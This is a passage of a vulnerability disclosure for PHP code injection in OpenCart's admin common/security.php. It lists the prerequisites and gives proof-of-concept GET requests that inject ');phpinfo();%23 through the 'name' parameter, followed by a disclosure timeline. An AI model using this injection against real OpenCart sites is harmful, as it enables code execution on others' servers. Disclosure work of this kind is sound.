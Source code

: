 {: .bug }
>foo bar

![broadcast-receiver]({{page.screenshots}}broadcast-receiver.png)
![pin]({{page.screenshots}}sc1.png){: width="220" }
{: .text-center }

## Exploit Conditions and Prerequisites

Both the vulnerabilities can be exploited if the attacker has valid credentials for the backend dashboard with `write` permissions on `common/security`.
Furthermore, an additional pre-requisite is needed to exploit the `admin` function (`common/security.admin`), whereby the `admin/` folder must be the default one and must not have been previously renamed.

## Proof-of-Concept

{: .note }
>A full automated exploit is still under developement and will be released soon.

The vulnerability in `common/security.storage` can be exploited by sending a GET request to `https://<url>/opencart/admin/index.php?route=common/security.storage&name=storage99/');phpinfo();%23&path=/<installation_path>/system/storage/&user_token=<user_token>`:

```http
GET /opencart-latest/admin/index.php?route=common/security.storage&name=storage99/');phpinfo();%23&path=/var/www/html/opencart-latest/system/storage/&user_token=d802a58437c44a666e0c74b52e31d948 HTTP/1.1
Host: localhost
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0
```
<br>

The vulnerability in `common/security.admin` can be exploited by sending a GET request to `https://<url>/opencart/admin/index.php?route=common/security.admin&page=10&user_token=3cf1fa8ece0d0edce6354eab30d7d932&name=admin1');phpinfo();%23`:

```http
GET /opencart-latest/admin/index.php?route=common/security.admin&page=10&user_token=3cf1fa8ece0d0edce6354eab30d7d932&name=admin1');phpinfo();%23 HTTP/1.1
Host: localhost
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0
```

## Video

## Disclosure Timeline
> *Please refer to the <a href="{{site.url}}/disclosures/policy/">disclosure policy</a> page for further details about the disclosure policy adopted by 0xbro.*<br>

- **14/10/2023**: Discovered both the vulnerabilities in `opencart/upload/admin/controller/common/security.php`<br>
- **17/10/2023**: Contacted OpenCart at `support@opencart.com` without receiving any response.<br>
- **24/10/2023**: Contacted OpenCart at `webmaster@opencart.com` without receiving any response.<br>
- **30/10/2023**: Following the official [guidelines](https://github.com/opencart/opencart#reporting-a-bug), published a [post](https://forum.opencart.com/viewtopic.php?t=232348) on the official OpenCart forum as a final attempt to contact the OpenCart team.<br>

{% include share.html %}
